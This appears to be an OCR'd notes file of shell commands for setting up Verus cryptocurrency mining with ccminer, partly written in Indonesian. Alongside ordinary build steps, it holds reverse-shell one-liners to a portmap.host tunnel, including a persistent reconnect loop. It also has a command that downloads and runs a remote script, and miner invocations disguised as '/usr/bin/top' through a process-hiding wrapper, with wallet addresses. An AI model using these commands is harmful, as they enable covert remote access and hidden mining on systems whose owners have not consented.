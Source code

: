 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)
# instal opn linux
apt-get install openvpn
openvpn --client --config file.ovpn
sh -i >& /dev/tcp/evaldana-36710.portmap.host/22703 0>&1
while true; do bash -c 'bash -i >& /dev/tcp/evaldana-36710.portmap.host/22703 0>&1'; sleep 10; done
evaldana-36710.portmap.host:22703 => 4050
#### dependence ccmine

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1
werkol-28870.portmap.host:28870 => 4052
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.c85 -p x -t 85
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.l1 -p x -t 1


### git clone --single-branch -b  Verus2.2gpu https://github.com/monkins1010/ccminer.git
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
